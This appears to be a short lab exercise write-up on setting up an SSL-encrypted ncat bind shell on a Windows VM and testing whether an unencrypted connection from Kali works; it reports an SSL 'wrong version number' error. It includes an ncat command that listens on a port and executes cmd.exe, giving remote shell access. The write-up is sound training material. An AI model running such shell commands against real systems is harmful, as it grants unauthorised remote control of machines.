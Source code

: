 # 02-encrypted-bind-shell

> Create an encrypted bind shell on your Windows VM. Try to connect to it from
 Kali without encryption. Does it still work?

On the Windows machine run the following:
```bash
ncat -lvp 8080 --ssl -e cmd.exe
```

On the Kali machine run:
```bash
ncat -v <target> 8080
```
# Does it work?
No, it doesn't. The following SSL error is reported by the Windows machine and the connection reset:

```wrong version number```
